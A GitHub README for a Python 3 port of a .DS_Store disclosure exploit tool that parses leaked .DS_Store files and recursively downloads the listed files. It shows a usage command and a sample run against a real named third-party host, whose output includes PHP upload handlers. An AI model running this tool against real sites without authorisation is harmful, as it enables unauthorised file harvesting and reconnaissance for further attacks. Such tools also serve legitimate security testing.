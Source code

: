 # ds\_store\_exp #

# ds_store_exp_py3
This repository is forked from [lijiejie/ds_store_exp](https://github.com/lijiejie/ds_store_exp). I migrated the former python code to `python3`. The following description is the origin author's `readme`.

A **`.DS_Store`** file disclosure exploit. 

It parses .DS_Store file and downloads files recursively.

这是一个 .DS\_Store 文件泄漏利用脚本，它解析.DS_Store文件并递归地下载文件到本地。

    Usage: python ds_store_exp.py http://www.example.com/.DS_Store

## Install ##

	pip install -r requirements.txt

## Example ##

	ds_store_exp.py http://hd.zj.qq.com/themes/galaxyw/.DS_Store

	hd.zj.qq.com/
	└── themes
	    └── galaxyw
	        ├── app
	        │   └── css
	        │       └── style.min.css
	        ├── cityData.min.js
	        ├── images
	        │   └── img
	        │       ├── bg-hd.png
	        │       ├── bg-item-activity.png
	        │       ├── bg-masker-pop.png
	        │       ├── btn-bm.png
	        │       ├── btn-login-qq.png
	        │       ├── btn-login-wx.png
	        │       ├── ico-add-pic.png
	        │       ├── ico-address.png
	        │       ├── ico-bm.png
	        │       ├── ico-duration-time.png
	        │       ├── ico-pop-close.png
	        │       ├── ico-right-top-delete.png
	        │       ├── page-login-hd.png
	        │       ├── pic-masker.png
	        │       └── ticket-selected.png
	        └── member
	            ├── assets
	            │   ├── css
	            │   │   ├── ace-reset.css
	            │   │   └── antd.css
	            │   └── lib
	            │       ├── cityData.min.js
	            │       └── ueditor
	            │           ├── index.html
	            │           ├── lang
	            │           │   └── zh-cn
	            │           │       ├── images
	            │           │       │   ├── copy.png
	            │           │       │   ├── localimage.png
	            │           │       │   ├── music.png
	            │           │       │   └── upload.png
	            │           │       └── zh-cn.js
	            │           ├── php
	            │           │   ├── action_crawler.php
	            │           │   ├── action_list.php
	            │           │   ├── action_upload.php
	            │           │   ├── config.json
	            │           │   ├── controller.php
	            │           │   └── Uploader.class.php
	            │           ├── ueditor.all.js
	            │           ├── ueditor.all.min.js
	            │           ├── ueditor.config.js
	            │           ├── ueditor.parse.js
	            │           └── ueditor.parse.min.js
	            └── static
	                ├── css
	                │   └── page.css
	                ├── img
	                │   ├── bg-table-title.png
	                │   ├── bg-tab-say.png
	                │   ├── ico-black-disabled.png
	                │   ├── ico-black-enabled.png
	                │   ├── ico-coorption-person.png
	                │   ├── ico-miss-person.png
	                │   ├── ico-mr-person.png
	                │   ├── ico-white-disabled.png
	                │   └── ico-white-enabled.png
	                └── scripts
	                    ├── js
	                    └── lib
	                        └── jquery.min.js
	
	21 directories, 48 files
